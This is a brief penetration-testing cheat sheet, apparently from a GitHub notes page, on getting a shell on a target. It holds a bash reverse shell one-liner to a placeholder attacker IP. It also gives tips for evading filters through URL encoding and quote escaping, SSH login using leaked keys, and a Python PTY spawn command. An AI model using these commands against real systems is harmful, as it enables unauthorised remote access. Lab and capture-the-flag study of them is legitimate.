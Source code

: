 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

1. Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
ssh Username@Host

    password : ******* 


ssh -i PrivateKey Username@Host 
```


2. Connecting Via SSH is Better ?




## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

> if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 

> try URL encoding / double URL encoding

> quotations conflict, how to deal with it ?? 

    embrace the whole payload with double qoutes, then escape the inside ones
    
    there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'